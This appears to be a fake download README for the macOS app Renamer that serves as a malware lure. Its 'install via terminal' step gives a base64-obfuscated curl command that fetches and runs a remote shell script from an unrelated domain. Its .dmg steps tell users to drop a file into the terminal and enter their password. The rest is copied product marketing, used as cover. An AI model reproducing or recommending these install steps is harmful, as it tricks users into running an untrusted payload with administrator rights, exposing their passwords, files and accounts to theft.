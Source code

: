 # Renamer Mac Download

![Renamer Screenshot](https://renamer.com/assets/app_icon_header-d6545d3473c31280e3b3575118eade7d7899196cd11e601d0ba3c6eb5ad9e1d6.png)

[![Download Now](https://img.shields.io/badge/Download--Now-Renamer%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/renamermac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Renamer for Mac?

**Renamer** is a professional file renaming tool for **macOS** that simplifies the process of batch renaming multiple files and folders. Whether you need to rename hundreds of images, music files, documents, or project assets, Renamer allows you to do it in just a few clicks — with precision and flexibility.

Unlike manual renaming in Finder, Renamer offers advanced pattern matching, text replacement, numbering sequences, and metadata-based naming. You can chain multiple renaming actions together, preview the results before applying changes, and even save custom workflows for future use.

Renamer supports automation via AppleScript, making it an excellent tool for developers, photographers, designers, and anyone managing large file collections. It integrates seamlessly with macOS, offering a clean interface and blazing-fast performance.

![Renamer Screenshot](https://renamer.com/assets/workflow-3f8b5ca143a1fdbb7c4749fdac0627b9bbc5ae83ad77dcfd79ea671734fd25b2.png)

---
## 🌟 Key Features & Benefits

- 📂 **Batch Renaming** — Rename thousands of files and folders at once.
- 🔍 **Preview Changes** — See the new names before applying them.
- 🔄 **Multiple Actions** — Combine text replacement, numbering, case changes, and more.
- 🖼️ **Metadata Support** — Use EXIF, ID3, and other metadata in filenames.
- ⚡ **Fast & Efficient** — Optimized for large file operations.
- 🤖 **Automation Ready** — Supports AppleScript and saved workflows.
- 💻 **macOS Native** — Works seamlessly with the latest macOS versions and Apple Silicon.

---

## 🖥️ System Requirements

- **macOS**: 10.14 Mojave or later  
- **Processor**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 2 GB minimum  
- **Disk Space**: ~20 MB  
- **License**: Free trial, paid license for full features

---

## 🏷️ Keywords

renamer download, renamer mac, renamer mac download, renamer for mac, renamer for macos, renamer download mac
